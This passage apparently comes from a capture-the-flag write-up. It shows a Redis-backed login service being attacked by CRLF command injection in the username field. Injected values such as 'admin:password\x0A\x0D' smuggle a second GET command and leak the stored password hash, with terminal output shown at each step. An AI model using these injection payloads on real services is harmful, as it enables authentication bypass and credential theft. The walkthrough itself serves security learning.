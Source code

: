 The error `unbalanced quotes in request` seems to be from a Redis server, a
NoSQL engine. We can see this precise error in the
[`networking.c`](http://download.redis.io/redis-stable/src/networking.c) file
of the project.

We replace the username with `admin\x0A\x0D` in order to finish the command and
obtain :

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : OFJUOFLbDdR49FHeNMUH4FX7VFIUPxiASDKIaXpZvtIELU3Yo333ICcUmIZFfVWB !
    [+] Auth data : AUTH username |e72fd1858578774bfbee00196992db55f7697833746053a2390a73f4616c60da
    [~] Sending auth packet...
    [+] Welcome -ERR unknown command ':name' we are verifying your password...
    [-] Bad password or authentification error... !

We notice the prefix `:name` which have been interpreted as a second command.

### Command injection

We try to inject [Redis commands](http://redis.io/commands) like `INFO` by
replacing the username with `admin\x0A\x0DINFO\x0A\x0D`:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : JrLFTYYrDxYibypIBzkdmALAzDCoYe9olBMEZ2OXEDuqsrFFISLzLhWMkeFOdRCB !
    [+] Auth data : AUTH admin
    INFO
    |30247cdea2397657332d6f35b4c2a4340b83e3a842a17119704f31185a41cbe3
    [~] Sending auth packet...
    [+] Welcome -ERR unknown command 'INFO' we are verifying your password...

    [-] Bad password or authentification error... !

The `INFO` commend is not recognize. After several tests, we see that all
commands but `GET` seems filtrated. We suppose that the one used to get the
username and the password in the NoSQL database. With

The requests on the server should be something like:

    username = GET <user>:name
    password = GET <user>:password

We try to inject `admin:password\x0A\x0D` in the username, that will give us:

    username = GET admin:password\x0A\x0D:name
    password = GET admin:password\x0A\x0D:password

(The name and password at the end of each line would not be interpreted).

We execute the program with `admin:password\x0A\x0D` as a username:

    spl3en@box:~$ python SecureAuthClient.py
    [~] Server sent challenge : DsHn1UJH7LjPSpVOIuZwh7QUgEZ1qGXnK8sHxBYnSTsaWNdVYDvHG5UCPTrvL2AJ !
    [+] Auth data : AUTH admin:password
    |606611cc808eabd5e38bed8e21360b52127f3e2cecbf02413c3da90fa43c71a3
    [~] Sending auth packet...
    [+] Welcome 837a135ad3ccb1978f169aa62a62a028b76ec42b2284791bd4703421ec050529 we are verifying your password...
